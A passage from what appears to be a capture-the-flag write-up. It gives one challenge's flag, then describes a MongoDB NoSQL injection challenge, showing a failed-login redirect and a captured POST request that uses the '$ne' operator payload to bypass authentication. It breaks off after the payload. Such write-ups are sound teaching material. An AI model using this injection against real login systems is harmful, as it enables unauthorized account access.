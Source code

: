 
Final flag: `uctf{Sule_Dukol_waterfall}`

## MongoDB NoSQL injection (Web)

### Intro

Welcome to the MongoDB Injection Maze! Your mission is to exploit a vulnerable web application that uses MongoDB as its database backend. Your goal is to penetrate into the system by leveraging MongoDB injection

### MongoSQL Vulnerability
A site is given that seems to be able to do MongoDB Injection. There is no source code. The first step is to break through the login page.

After trying some mongodb payloads with burpsuite we alway get the following response:

```
HTTP/2 302 Found
Date: Thu, 07 Sep 2023 09:25:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
X-Powered-By: Express
Location: /login
Vary: Accept
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4104
Server-Timing: total;dur=224
X-Request-Id: 9e1568c97968615ce95c8232264ffd06

<p>Found. Redirecting to <a href="/login">/login</a></p>
```

It seems like, when we fail the login it will redirect to the login page.
However when we add the following payload:

```
POST /login HTTP/2
Host: cp.uctf.ir
Cookie: ssid=s%3A5303d8b9-1021-4197-a80c-b16b39f36283.rDQ9mtIhm0QstGCUND6iZWRKMLK1LyGYB37wDwN9j7E; ba07499ab750e5460403c776a406d8aa=2f5d7fb3ebb84203292b3e716d6376d1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://cp.uctf.ir/login
Content-Type: application/json
Content-Length: 49
Origin: https://cp.uctf.ir
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

{"username":{"$ne": "x"},"password":{"$ne": "x"}}
```
